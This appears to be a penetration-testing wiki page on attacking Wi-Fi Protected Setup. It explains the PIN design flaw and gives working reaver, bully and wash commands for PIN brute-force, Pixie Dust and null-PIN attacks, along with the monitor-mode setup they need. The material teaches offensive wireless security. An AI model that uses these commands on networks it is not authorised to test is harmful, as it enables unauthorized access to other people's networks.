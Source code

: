 # 🛠️ WPS

## Theory

Wi-Fi Protected Setup (WPS) is a simplified configuration protocol designed to make connecting devices to a secure wireless network easier. WPS employs an 8-digit PIN for user network connection, verifying the first 4 digits before proceeding to check the remaining 4. This allows for a potential Brute-Force attack on the first set of digits followed by the second set, with a total of only 11,000 possible combinations.

{% hint style="info" %}
Initially it's 20k possible combinations (10^8 =100.000.000 to 10^4+10^4=20.000) but as the 8th digit of the PIN is always a checksum of digit one to digit seven, there are at most (10^4 +10^3=11.000) attempts needed to find the correct PIN.
{% endhint %}

Below are some known attacks on Wi-Fi Protected Setup (WPS):

* **PIN Brute-Force:** Some routers with WPS allow users to connect by entering an 8-digit PIN code. A brute-force attack involves trying all possible combinations until the correct PIN is found.
* **Pixie Dust:** This attack exploits a weakness in the generation of WPS encryption keys. It involves exploiting vulnerabilities in certain routers during the creation of WPA/WPA2 encryption keys.
* **PIN Revelation:** Certain WPS-enabled routers may reveal information about the validity of the PIN during a connection attempt. This information disclosure can aid an attacker in narrowing down the search space during a brute-force attack.
* **Access Point Enumeration:** Some routers with WPS may be vulnerable to an attack that allows an attacker to determine which access points are present in a given area.

## Practice

Most WPS attacks mentionned below can be conducted using [airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon) (Bash) or [wifite2](https://github.com/derv82/wifite2) (Python).

{% hint style="info" %}
Monitor mode can be activated automatically with these tools. The [monitor](wps.md#monitor-mode) section would not needed then.
{% endhint %}

{% hint style="warning" %}
Some of the commands listed in this section may require high privileges to run. Containers would also need high privileges on a host.
{% endhint %}

There are three main methods for setting up a connection using WPS:

* **Push Button Configuration (PBC):** Press the WPS button on the router and then activate the WPS function on the device to connect. The two devices will automatically establish a connection.
* **PIN based Configuration:** Each WPS-enabled device has a unique PIN code. It can be entered on the router through its web interface, or vice versa, to establish the connection.
* **Near Field Communication Configuration:** In which the user has to bring the new client close to the access point to allow a near field communication between the devices. NFC Forum–compliant RFID tags can also be used.

### Monitor mode

The default configuration for wireless interfaces is "Managed" mode, restricting packet capture to those with a "Destination MAC" matching the interface's own MAC address. To capture all packets within a wireless device's range, switch the mode to "Monitor."

{% tabs %}
{% tab title="UNIX-like" %}
The following native commands can be used to have a capable network interface in monitor mode.

```bash
# view wireless interfaces and check their current mode.
iwconfig

# disable a network interface
ifconfig "$INTERFACE" down

# change the interface mode to monitor
iwconfig "$INTERFACE" mode monitor

# re-enable your network interface.
ifconfig "$INTERFACE" up
```
{% endtab %}

{% tab title="Aircrack-ng" %}
With [Aircrack-ng](https://www.aircrack-ng.org/) (C) installed, the following commands can be used.

```bash
# list all your network interfaces.
airmon-ng

# stop  interfering network processes
arimon-ng check kill

# start a network interface in monitor mode
airmon-ng start "$INTERFACE"
```
{% endtab %}
{% endtabs %}

### Recon

[Wash](https://github.com/t6x/reaver-wps-fork-t6x) is used to identify nearby WPS-enabled access points along with their main characteristics. It is included in the [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) (C) package.

```bash
wash -i "$INTERFACE"
```

### PIN Brute-Force

In 2011, researcher [Stefan Viehböck](https://twitter.com/sviehb) identified a design and implementation flaw that made PIN-based WPS vulnerable to brute-force attacks. A successful exploitation of this flaw would grant unauthorized individuals access to the network, and the sole effective solution is to disable WPS.

Two main tools are now available for conducting this attack: [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) (C) and [Bully](https://github.com/aanarchyy/bully) (C).

```bash
# Use 5GHz 802.11 channels (for both tools): -5

# With reaver
# Verbosity of output (for reaver): -v -vv -vvv
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -vv

# With bully
# Verbosity of output: -v 1 -v 2 -v 3
bully "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -S -F -B -v 3
```

### Pixie Dust

In 2014, [Dominique Bongard](https://twitter.com/Reversity) identified a security vulnerability he dubbed "Pixie Dust". It specifically targets the default WPS implementation found in wireless chips produced by various manufacturers, including Ralink, MediaTek, Realtek, and Broadcom. The attack exploits a randomization deficiency during the generation of the "E-S1" and "E-S2" "secret" nonces. Knowing these nonces, the PIN can be retrieved in a matter of minutes.

A tool called [pixiewps](https://github.com/wiire-a/pixiewps) was developed, and a new version of [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) was created to automate the attack.

Check [this list](https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A\_p7Nnj5Y) to know which router model is vulnerable.

```bash
# Use 5GHz 802.11 channels (for both tools): -5

# With reaver
# Verbosity of output (for reaver): -v -vv -vvv
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -K 1 -N -vv

# With bully
# Verbosity of output: -v 1 -v 2 -v 3
bully  "$INTERFACE" -b "$BSSID" -d -v 3
```

### Null Pin

Some poorly implemented systems allowed the use of a "Null" PIN for connections. [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) can conduct the attack, whereas [Bully](https://github.com/aanarchyy/bully) lacks this specific functionality.

```bash
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -f -N -g 1 -vv -p ''
```

